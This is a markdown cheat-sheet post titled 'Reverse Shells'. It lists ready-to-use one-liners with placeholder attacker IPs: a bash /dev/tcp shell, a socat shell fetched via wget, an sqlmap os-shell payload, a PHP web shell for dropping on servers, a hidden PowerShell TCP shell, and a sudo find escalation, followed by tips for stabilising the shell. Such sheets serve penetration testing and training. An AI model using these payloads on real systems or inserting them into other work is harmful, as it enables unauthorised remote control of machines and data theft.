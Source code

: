 ```yaml
---
title: "Reverse Shells"
date: 2025-04-10 +0530
categories: [Cyber-Security]
tags: [bash, socat, shell, reverse, tcp, find, sqlmap, linux, shells, one-liners]
order: 6
image: /assets/images/Cyber-Security/Reverse-Shells.png
---
```


A reverse shell is a technique where the target machine initiates a connection back to the attacker, allowing remote access even through firewalls. Below are examples, including stabilization tips.

## On the Attacker Machine (Listener)

```bash
nc -lvnp <Port>
```

Start a listener to catch the reverse shell connection.

## Bash Reverse Shell

```bash
/bin/sh -i >& /dev/tcp/<Your-IP>/<Port> 0>&1
```

Simple, reliable one-liner using bash networking capabilities.

## Linux Script Shell

```bash
script -qc /bin/bash /dev/null
```

Used to stabilize a limited shell via `script`.

## Socat Reverse Shell (Static Binary)

```bash
wget -q https://github.com/andrew-d/static-binaries/raw/master/binaries/linux/x86_64/socat -O /dev/shm/socat
chmod +x /dev/shm/socat
/dev/shm/socat exec:'bash -li',pty,stderr,setsid,sigint,sane tcp:<Your-IP>:<Port>
```

Full-featured shell with proper TTY, even when `socat` isn’t installed.

## Find Command Reverse Shell

```bash
sudo find . -exec /bin/sh \; -quit
```

Useful when `sudo` permissions include `find`. Pops a shell.

## SQLMap Reverse Shell

```bash
sqlmap --os-shell --hostname target --os-cmd "bash -i >& /dev/tcp/<Your-IP>/443 0>&1"
```

Trigger a shell via SQLMap after gaining command execution access.

## PHP Reverse Shell

```php
<?php system("bash -c 'bash -i >& /dev/tcp/<Your-IP>/4444 0>&1'"); ?>
```

Drop this on a server to trigger a reverse shell if there's file inclusion or RCE.

## PowerShell Reverse Shell (Windows)

```powershell
powershell -nop -w hidden -c "$client = New-Object System.Net.Sockets.TCPClient('<Your-IP>',4444);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()}"
```

Reverse shell for Windows systems with PowerShell access.

# Stabilizing a Reverse Shell

When you catch a shell, it’s often unstable or limited. Here’s how to fix it.

## Upgrade to PTY Shell

```bash
python -c 'import pty; pty.spawn("/bin/bash")'
```

Provides a pseudo-terminal (more interactive, handles input better).

## Suspend the Shell

Press `Ctrl+Z`

Sends the shell to background so you can configure your terminal.

## 🛠️ Raw Mode + Foreground

```bash
stty raw -echo
fg
```

Switches terminal mode and brings shell back to foreground.

## Fix Size + Colors

```bash
export SHELL=bash
stty rows 30 columns 120
export TERM=xterm-256color
```

Helps with arrow keys, colors, resizing issues.